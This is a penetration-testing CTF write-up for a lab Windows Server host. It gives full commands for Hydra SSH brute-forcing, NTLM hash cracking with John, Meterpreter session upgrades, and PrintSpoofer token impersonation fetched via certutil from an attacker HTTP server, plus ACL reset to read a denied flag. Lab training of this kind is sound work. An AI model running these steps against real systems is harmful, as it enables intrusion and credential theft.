









# Host & Network Penetration Testing: Post-Exploitation CTF 2

## Overview

This lab targeted a single Windows Server host, chaining SSH brute-force against a known weak account into NTLM hash cracking, credential reuse, and two distinct privilege escalation techniques: abusing `SeImpersonatePrivilege` via PrintSpoofer to reach SYSTEM, then resetting ACLs to read a flag from a directory explicitly denying SYSTEM access.

**Objectives:**

- **Flag 1** — Compromise the SSH user `alice` and retrieve the flag
- **Flag 2** — Use the hash dump discovered in the previous challenge to crack and compromise another user (`david`)
- **Flag 3** — Escalate privileges and read the flag inside `C:\Windows\System32\config`
- **Flag 4** — Deal with explicit ACL restrictions on the Administrator's home directory and retrieve the final flag

**Useful resources provided:**

```text
Wordlist: /usr/share/wordlists/metasploit/unix_passwords.txt
Tool:     /root/Desktop/PrintSpoofer64.exe
```

---

## Enumeration

A Metasploit workspace was created and a full service scan run:

```bash
db_nmap -sV -sC -p- -O target.ine.local
```

**Results:**

```text
22/tcp    open  ssh    OpenSSH for_Windows_9.5 (protocol 2.0)
135/tcp   open  msrpc  Microsoft Windows RPC
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: WIN-GQ7PTVEC6HL
|   Product_Version: 6.3.9600
49152-49168/tcp  open  msrpc (multiple)
```

The RDP NTLM negotiation disclosed the hostname (`WIN-GQ7PTVEC6HL`) and build number (6.3.9600 = Windows Server 2012 R2). SSH on port 22 was the most accessible entry point given the hint that a user named `alice` had a weak password.

---

## Flag 1 — SSH Brute-Force Against `alice`

Rather than guessing blindly, Hydra was used to spray a common password list against the known username:

```bash
hydra -l alice -P /usr/share/wordlists/metasploit/unix_passwords.txt target.ine.local ssh
```

**Result:**

```text
[22][ssh] host: target.ine.local   login: alice   password: princess1
```

Login was confirmed directly:

```bash
ssh alice@target.ine.local
# Password: princess1
```




```text
Flag 1: 5219bf1c0595466d862d0df5d0bec404
```

While browsing `alice`'s accessible directories, a file called `hashdump.txt` was discovered containing NTLM hashes for 30+ user accounts — a significant finding. The file was noted for use in the next stage.

---

## Flag 2 — NTLM Hash Cracking & Compromising `david`

The `hashdump.txt` file contained entries in the standard Windows SAM format (LM:NTLM pairs):

```text
alice:1015:aad3b435b51404eeaad3b435b51404ee:8883a4229c5553c9cca6856a53011e4c:::
bonney:1035:aad3b435b51404eeaad3b435b51404ee:281155baf68f6a9089146311a77d6d7c:::
david:1016:aad3b435b51404eeaad3b435b51404ee:ca8e025e9893e8ce3d2cbf847fc56814:::
...
```

Note that every entry's LM half is `aad3b435b51404eeaad3b435b51404ee` — the well-known "empty" LM hash, meaning LM authentication is disabled on this host. Only the NT hash (the second half) needed to be cracked.

The hash file was first downloaded via an upgraded Meterpreter session. To get there reliably, Metasploit's `ssh_login` module was used to convert the SSH access into a proper session:

```text
use auxiliary/scanner/ssh/ssh_login
set USERNAME alice
set PASSWORD princess1
set RHOSTS target.ine.local
run
```

Then the session was upgraded to Meterpreter for file transfer:

```text
sessions -u <id>
```

```text
download hashdump.txt
```

With the file local, John the Ripper was pointed at it:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashdump.txt
```

**Cracked credentials:**

```text
princess1   (alice)
orange      (david)
```

`david`'s password was then used to authenticate via SSH (again via `ssh_login` for a clean Meterpreter session):

```text
use auxiliary/scanner/ssh/ssh_login
set USERNAME david
set PASSWORD orange
set RHOSTS target.ine.local
run
```



The session was upgraded and `david`'s home directory browsed to reveal the second flag:

```text
Flag 2: be6476e36a464695b6edab7c32020af6
```


---

## Flag 3 — Privilege Escalation via `SeImpersonatePrivilege` (PrintSpoofer)

Attempting to navigate to `C:\Windows\System32\config` as `david` returned an access denied error. The next step was checking what privileges `david` held:

```cmd
whoami /priv
```

The output included:

```text
SeImpersonatePrivilege    Impersonate a client after authentication    Enabled
```



`SeImpersonatePrivilege` is a well-known privilege escalation path on Windows: any process running under a service account or similar context with this privilege can impersonate any token on the system — including SYSTEM. Tools like **PrintSpoofer** exploit this by coercing a SYSTEM-level token using the Print Spooler named pipe trick and then spawning a process under it.

## Method 1 Privilege Escalation - Meterpreter 


user (david) holds `SeImpersonatePrivilege`, escalate directly within Meterpreter:

``` 
bash 
msf6 > sessions -u 1                 # Upgrade windows shell to Meterpreter
msf6 > sessions -i 2                 # Interact with target session
meterpreter > getsystem              # Auto-elevate via named pipe 
meterpreter > getuid                 # Verify: NT AUTHORITY\SYSTEM 
```

## Method 2 Privilege Escalation - PrintSpoofer64.exe

**Step 1 — Serve the binary from the attacker machine:**

```bash
sudo python3 -m http.server 80
```

**Step 2 — Download PrintSpoofer64.exe to the target:**

```cmd
certutil -urlcache -split -f http://10.10.44.6/PrintSpoofer64.exe PrintSpoofer64.exe
```
oad.png)

**Step 3 — Execute PrintSpoofer to spawn a SYSTEM shell:**

```cmd
PrintSpoofer64.exe -i -c cmd
```

This launched an interactive `cmd.exe` session running as `NT AUTHORITY\SYSTEM`.



With SYSTEM-level access, `C:\Windows\System32\config` was now fully accessible:

```text
Flag 3: c59202b113b5492c8b138eea91097079
```



---

## Flag 4 — ACL Bypass in the Administrator's Home Directory

Navigating to `C:\Users\Administrator\flag` as SYSTEM returned an unexpected access denied. The directory permissions were inspected to understand why:

```cmd
icacls C:\Users\Administrator\flag
```

```text
NT AUTHORITY\SYSTEM:(OI)(CI)(DENY)(RX)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
WIN-GQ7PTVEC6HL\Administrator:(I)(OI)(CI)(F)
```

This was the critical detail: there was an **explicit DENY ACE** for `NT AUTHORITY\SYSTEM` that overrode the inherited full-control entry below it. On Windows, explicit DENY entries are evaluated before ALLOW entries — even when running as SYSTEM, the explicit deny on `(RX)` blocked read and execute access.

However, since SYSTEM has the ability to change file ownership and reset permissions, the deny rule could be removed entirely:

```cmd
icacls C:\Users\Administrator\flag /reset /T /C
```

The `/reset` flag removes all explicitly set ACEs and restores inherited permissions only. With the explicit DENY gone, the inherited full-control ALLOW for SYSTEM took effect:

```cmd
cd C:\Users\Administrator\flag
type flag4.txt
```

```text
Flag 4: 24e14f8ebc8d4c239e1d32ca308fab73
```



---

## Flags Captured

| Flag | Value |
|---|---|
| Flag 1 | `5219bf1c0595466d862d0df5d0bec404` |
| Flag 2 | `be6476e36a464695b6edab7c32020af6` |
| Flag 3 | `c59202b113b5492c8b138eea91097079` |
| Flag 4 | `24e14f8ebc8d4c239e1d32ca308fab73` |

---

## Privilege Escalation & Lateral Movement Logic

This lab had two distinct escalation steps, each requiring a different approach:

**Step 1 — SSH brute-force → credential discovery → lateral movement to `david`**

The entry point was given (username `alice`, weak password), but the more valuable discovery was the `hashdump.txt` file sitting in an accessible directory post-login. The instinct here was correct: any file with "hash" or "dump" in the name should be downloaded immediately and cracked offline. John the Ripper against `rockyou.txt` cracked both `alice` and `david`'s NT hashes in the same pass. `david` was the more interesting target since the name matched one of the users called out in the Flag 2 hint.

**Step 2 — `SeImpersonatePrivilege` → SYSTEM via PrintSpoofer**

`whoami /priv` is the first command to run after any new Windows session is established. `SeImpersonatePrivilege` showing as Enabled is almost always exploitable with a token impersonation tool (PrintSpoofer, GodPotato, JuicyPotato, RoguePotato — which one works depends on the OS version and patch level). On Windows Server 2012 R2 (build 6.3.9600), PrintSpoofer is a reliable choice. The delivery mechanism (Python HTTP server + `certutil` download) is the standard Windows file transfer pattern when no SMB or other channel is available.

**Step 3 — ACL-level DENY → `icacls /reset`**

Flag 4 introduced an explicit DENY ACE on the SYSTEM account — a deliberate trap to test whether running as SYSTEM is always sufficient. The key insight is that explicit DENYs override inherited ALLOWs regardless of privilege level, but SYSTEM can still modify the ACL itself using `icacls /reset`, which strips explicit entries and falls back to inherited permissions. This restored the implicit full-control ALLOW and made the file readable.

---

## Key Takeaways

- Explicit DENY ACEs on Windows take precedence over ALLOW entries at the same or lower level — running as SYSTEM does not automatically bypass a deny rule applied to SYSTEM itself.
- `icacls /reset` removes explicit ACEs and restores inherited permissions only — a clean way to recover access when SYSTEM's own DENY is blocking a read.
- `whoami /priv` should be the first command after every new Windows shell. `SeImpersonatePrivilege` enabled is practically a guaranteed SYSTEM escalation on unpatched hosts.
- Token impersonation tools (PrintSpoofer, GodPotato, etc.) rely on coercing a SYSTEM-level named pipe connection — they work because service accounts legitimately hold `SeImpersonatePrivilege` to do their jobs.
- NTLM hashes discovered in world-readable files don't need to be cracked if they can be used directly (pass-the-hash against SMB); but cracking is still valuable when the recovered plaintext unlocks other services (SSH in this case doesn't support PtH).
- The LM hash being `aad3b435b51404eeaad3b435b51404ee` across all entries confirms LM auth is disabled — only the NT hash half is relevant for cracking or pass-the-hash.

## Skills Practiced

- Service Enumeration & OS Fingerprinting via RDP NTLM Negotiation
- SSH Brute-Force (Hydra)
- Meterpreter Session Upgrade via `ssh_login`
- NTLM Hash Cracking (John the Ripper, NT format)
- Windows Credential Reuse & Lateral Movement
- Windows Privilege Auditing (`whoami /priv`)
- Token Impersonation via `SeImpersonatePrivilege` (PrintSpoofer)
- File Transfer via Python HTTP Server + `certutil`
- Windows ACL Analysis (`icacls`)
- Explicit DENY ACE Bypass via `icacls /reset`